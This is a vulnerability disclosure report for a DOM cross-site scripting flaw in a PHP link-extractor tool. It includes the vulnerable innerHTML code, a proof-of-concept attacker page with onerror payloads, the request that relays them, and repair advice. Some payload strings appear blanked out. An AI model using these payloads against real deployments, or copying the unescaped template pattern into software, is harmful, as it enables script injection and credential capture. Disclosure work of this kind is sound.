

# SourceCodester Website Link Extractor 1.0 /index.php link.href= Cross-Site Scripting (DOM HTML Injection via Extracted Link Data)

## Author

- (submitter name pending user confirmation — will be filled from vuldb.txt account at submission time)

## Vendor and Software Links

- https://www.sourcecodester.com/php/18333/website-link-extractor-using-php-and-javascript-source-code.html
- https://www.sourcecodester.com/download-code?nid=18333

## Overview

- Website Link Extractor (SourceCodester, author rems), version 1.0 (current public download, 2026-11), fetches a user-supplied URL server-side and renders every `<a>` element of the fetched page (its `href` and link text) back into the tool's own results DOM. Neither the JSON API nor the client renders this third-party data safely: `link.href` and `link.text` are interpolated unescaped into an `innerHTML` template. A victim who extracts links from an attacker-chosen URL therefore executes attacker JavaScript in the tool's origin. The same unescaped template also replays the extraction history from `localStorage`, persisting the injection across visits.

## Root Cause

- `/index.php:648-657` — the results renderer builds HTML by direct interpolation of fetched link data, with no escaping anywhere in the data path:

```js
// index.php:648-657
linkItem.innerHTML = `
    <div class="link-info">
        <a href="${link.href}" target="_blank" class="link-url" title="${link.href}">${link.href}</a>
        <div class="link-text" title="${link.text}">${link.text || '(no text)'}</div>
    </div>
    ...
`;
```

- The data source is the JSON response of `/extract.php`, which returns the **raw `href` attribute and raw `textContent` of every `<a>` tag on the fetched page** (`extract.php:41-54`: `$href = $tag->getAttribute('href'); $text = trim(preg_replace('/\s+/', ' ', $tag->textContent));` — no HTML encoding, and `json_encode()` does not HTML-escape). Any page whose anchors contain markup-as-text therefore ships attacker HTML straight into the victim's DOM.
- A second sink replays the same class from `localStorage` (`index.php:485-488`):

```js
// index.php:485-488
historyItem.innerHTML = `
    <div>${item.url}</div>
    <div>${item.links.length} links</div>
`;
```

  so a payload in the extracted URL persists in the victim's browser history and re-executes on every re-render.

## Impact

- Attacker JavaScript executes in the extractor tool's origin (the domain hosting the tool in a real deployment). From there the injected code can read and overwrite the tool's `localStorage` extraction history (`index.php:451,573`), issue same-origin requests to `extract.php` — chaining the server-side fetch proxy (its `url` parameter accepts `file://` and `php://` wrappers, see dedup note) from the victim's browser — and re-render arbitrary content in the page (in-tool phishing/credential capture). Delivery requires only that the victim extracts links from an attacker-supplied URL — the tool's normal operation, with the payload arriving inside the fetched page's anchor data rather than in a request parameter.

## PoC

- Step 1 — attacker page (verified locally at `http://127.0.0.1:8199/link-xss.html`; third-party content carried in anchor data):

```html
<a href="http://attacker.local/click">&lt;img src=x onerror=&quot;document.title='XSS-FIRED-in-extractor'&quot;&gt;</a>
<a href="http://127.0.0.1:8151/&quot;&gt;&lt;img src=x onerror=&quot;document.title='XSS-FIRED-href'&quot;&gt;&quot;">href-break</a>
```

  The first anchor's decoded `textContent` is the literal string ``; the second carries the same payload in the `href`, breaking out of the attribute in the template.

- Step 2 — the tool's own API relays the payload untouched:

```
POST /extract.php HTTP/1.1
Host: 127.0.0.1:8151
Content-Type: application/x-www-form-urlencoded

url=http://127.0.0.1:8199/link-xss.html
```

  Response (verbatim, payload passes through unescaped):

```
{"links":[...,{"href":"http:\/\/attacker.local\/click","text":""},...]}
```

- Step 3 — victim extracts that URL in the browser. Both payloads execute in the tool's origin; verified in-browser (chrome-devtools, page `http://127.0.0.1:8151/index.php`): after clicking "Extract Links", `document.title === "XSS-FIRED-href"`, and the injected element is visible in the results DOM:

```html
<a href="http://127.0.0.1:8151/">"" ...</a>
```

  Full transcript in `poc/F2-dom-injection-xss.txt`.

## Payload

```
anchor text:     (HTML-escaped inside the fetched page's <a>…</a>)
anchor href:  http://victim.tool/">"
```

## Screenshot

- Victim's browser after extracting the attacker URL: attacker URL in the input, "4 Links Found", and the injected payload rendered in the last row (broken-image icon + attribute debris). `document.title` mutation ("XSS-FIRED-href") proves execution:



## Suggested repair

1. **Never build result HTML by string interpolation:** create elements and assign via `textContent` (`const a = document.createElement('a'); a.href = link.href; a.textContent = link.href;`), or escape at minimum (`href`/`text` through a HTML-encoder before template interpolation) in `index.php:648-657`.
2. **Sanitize before persisting and replaying history:** store and render `item.url` escaped (`index.php:485-488`), and prefer `textContent` there as well.
3. **Harden the fetch proxy server-side** (defense in depth for the chained sink): restrict `extract.php`'s `url` to `http`/`https` schemes with an allowlist check on the parsed scheme, keep TLS verification on, and suppress wrapper access (`file://`, `php://`).
4. **Add a CSP** (`script-src 'self'`, no `unsafe-inline`) so any residual injection cannot execute inline handlers; regression-test with an attacker page whose anchors carry markup-as-text.

## Dedup note

- NVD: the product has exactly one CVE — CVE-2026-3163 ("affects the function `file_get_contents` of the component URL Handler … server-side request forgery"). That is the server-side fetch sink in `extract.php`. This finding is a different file (`index.php` client-side rendering), different type (DOM-based cross-site scripting), different injection point (`link.href`/`link.text` render path) — new per the dedup rule.
- VulDB: the only entry is #347670 (= CVE-2026-3163, SSRF, disclosed 2026-02-24). Three search-engine index passes restricted to vuldb.com (product name; entry 347670 details; XSS/injection/HTML variants) returned no rendering-side entry for this product (checked 2026-11-10; VulDB site itself unreachable behind Cloudflare).
- Note: the server-side fetch proxy (`extract.php` `url` parameter) is NOT claimed here — it is covered by CVE-2026-3163; this report claims only the client-side injection of the fetched data into the tool's DOM.
